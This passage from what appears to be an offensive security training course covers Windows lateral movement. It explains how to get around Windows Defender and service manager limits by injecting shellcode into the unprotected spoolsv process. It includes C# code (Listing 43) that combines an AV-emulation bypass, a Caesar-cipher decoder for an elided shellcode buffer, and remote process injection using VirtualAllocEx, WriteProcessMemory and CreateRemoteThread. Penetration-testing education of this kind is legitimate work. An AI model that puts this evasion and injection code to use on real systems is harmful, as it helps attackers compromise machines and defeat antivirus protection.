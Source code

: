 Before we can begin this attack, there is a complication we must address. A Windows service expects a service executable, which is coded in a particular way and must provide some callbacks to the service manager, otherwise the service manager will time out and the executable will terminate.

We can generate a service executable with msfvenom but Windows Defender will flag it. To solve this issue, we can either attempt to modify the service generated by msfvenom, code our own implementation, or perform process injection from our normal custom application. We'll take the latter approach.

If our executable performs process injection into a different SYSTEM process that is not protected by PPL, our shell will not die when the service manager terminates the associated process.

On Windows Server 2019 and newer editions of Windows 10, a fair number of SYSTEM processes execute with PPL enabled by default, meaning there are not many viable targets. One service process that is not protected and we _can_ inject into is spoolsv.

To recap, our lateral movement technique will perform three actions. First, the properties of SensorService are modified and the service is started. This will trigger a copy operation of the shellcode into the spoolsv process. Finally, the shellcode executes inside spoolsv.

To do this, we will first create a C# application that performs process injection into spoolsv. We'll combine the AV bypass technique that leveraged non-emulated APIs and a Caesar cipher with the process injection technique we developed previously.

The combined code, without the associated DllImport statements, is shown in Listing 43.

```
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if (mem == null)
{
    return;
}

byte[] buf = new byte[691] { 0x01, 0x4d, 0x88, ... };

for (int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 5) & 0xFF);
}

int size = buf.Length;

Process[] expProc = Process.GetProcessesByName("spoolsv");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

> Listing 43 - Code to evade AV and perform process injection
